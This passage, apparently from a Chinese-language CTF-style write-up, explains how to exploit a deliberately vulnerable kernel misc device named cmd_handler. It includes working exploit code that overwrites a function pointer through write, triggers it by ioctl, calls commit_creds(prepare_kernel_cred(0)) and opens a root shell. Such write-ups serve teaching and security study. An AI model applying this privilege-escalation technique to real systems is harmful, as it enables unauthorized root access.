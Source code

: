```
struct file_operations device_ops = {
  read: read_from_vuln_device,
  write: write_to_vuln_device,
  unlocked_ioctl: device_ioctl
};
 
static struct miscdevice vuln_device = {
        minor: MISC_DYNAMIC_MINOR,
        name: "cmd_handler", // Name ourselves /dev/string_format
        fops: &device_ops, //Struct for the file ops handler
        mode: 666
};

```

可以看到当我们在对该模块（即 cmd_handler) 调用 write，ioctl 函数时，该模块就会将这两个函数替换成自己的漏洞函数了，也就是说我们可以先调用 write 函数，使其触发 write_to_vuln_device 去覆盖 runhandler 地址（这里说一点能覆盖的原因是结构体的首地址和第一项内容的起始地址相同，且大小相同），然后再调用 unlocked_ioctl 触发调用 runHandler（kernel 2.6.36 中已经完全删除了 struct file_operations 中的 ioctl 函数指针，取而代之的是 unlocked_ioctl）

 

看下 exp 的核心部分，这里的 getsymbol 函数即打开 / proc/kallsyms 去获取相应字符串的地址而已：

```
int run_handler()
{
  commit_creds(prepare_kernel_cred(0));
  return 0;
}
int main(void){
 
    commit_creds =  (int (*)(unsigned long)) get_symbol("commit_creds");
    prepare_kernel_cred = (unsigned long(*)(unsigned long)) get_symbol("prepare_kernel_cred");
    CommandHandler ch =  {
        .runHandler = &run_handler
    };
    printf("[+] RunHandler at 0x%x\n", (unsigned int) &run_handler);
    int cmd_handler = open("/dev/cmd_handler", O_RDWR);
    check(cmd_handler >= 0, "Error opening challenge device");
 
    int rc = write(cmd_handler, &ch, sizeof(CommandHandler));
    check(rc >= 0, "Error writing to challenge device");
    #define RUN_COMMAND_HANDLER 0x1337
 
    rc = ioctl(cmd_handler, RUN_COMMAND_HANDLER, NULL);
    check(rc != -1, "IOCTL failed");
 
    printf("uid=%d, euid=%d\n",getuid(), geteuid() );
 
    if(!getuid())
        execl( "/system/bin/sh", "sh", (char*) NULL);
 
    return 0;
    error:
    return -1;
}

```
